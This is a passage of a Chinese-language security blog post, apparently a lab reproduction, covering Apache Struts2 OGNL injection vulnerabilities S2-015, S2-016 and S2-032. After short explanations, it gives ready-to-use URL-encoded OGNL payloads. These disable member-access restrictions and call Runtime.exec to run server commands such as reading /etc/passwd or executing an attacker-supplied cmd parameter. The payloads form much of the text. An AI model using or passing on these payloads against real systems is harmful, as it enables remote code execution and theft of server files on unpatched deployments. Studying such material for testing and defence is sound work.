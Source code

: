 如果请求与任何其他已定义的操作都不匹配，它将被*匹配，并且所请求的操作名称将用于基于操作名称加载JSP文件。并且{1}的值作为OGNL表达式受到威胁，因此允许在服务器端执行任意Java代码。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c210e719c4ce353b38c73089b1df9514.jpeg"/>

##### 命令执行

whoami<br/> payload:

```
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat@/etc/passwd%27%29.getInputStream%28%29%29%2C%23q%7D.action

```

#### S2-016

在struts2中，DefaultActionMapper类支持以"action:"、“redirect:”、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5c1dee69c68ad3ef4944532120c05a86.jpeg"/>

##### 检测

用`${1+2}`，URL编码为`%24%7B1%2B2%7D`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/652a4d298dad841a00b21ee02748f81c.jpeg"/><br/> 1+2=3，再次合理

##### 命令执行

whoami

```
index.action?redirect:%24%7b%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2c%23f.setAccessible(true)%2c%23f.set(%23_memberAccess%2ctrue)%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%22cat+etc/passwd%22).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew+java.io.BufferedReader(%23b)%2c%23d%3dnew+char%500%5d%2c%23c.read(%23d)%2c%23genxor%3d%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2c%23genxor.println(%23d)%2c%23genxor.flush()%2c%23genxor.close()%7d

```

这里删掉了3个字符，违规了（┭┮﹏┭┮），师傅们看图<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fe6b43d65fad53325287026fa9ad8184.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/efd0e6be3d5e7fa3d7ed980e0a69c33a.jpeg"/><br/> 下载文件，打开后里面是whoami的结果

#### S2-032

S2-032漏洞的影响范围是Struts 2.3.20 - Struts Struts 2.3.28，当开启了动态方法调用时可RCE。这次的漏洞分析以及后面的漏洞分析都是使用的Struts 2.3.24。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c38115c4ce1a36edf9b4115081f5c4ab.jpeg"/>

##### 命令执行

whoami

```
index.action?method:%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse()%2c%23w%3d%23res.getWriter()%2c%23s%3dnew+java.util.Scanner(%40java.lang.Runtime%40getRuntime().exec(%23parameters.cmd%5b0%5d).getInputStream())%2c%23str%3d%23s.hasNext()%3f%23s.next()%3a%23xx%2c%23w.print(%23str)%2c%23w.close()%2c1%3f%23xx%3a%23request.toString&amp;cmd=whoami

```
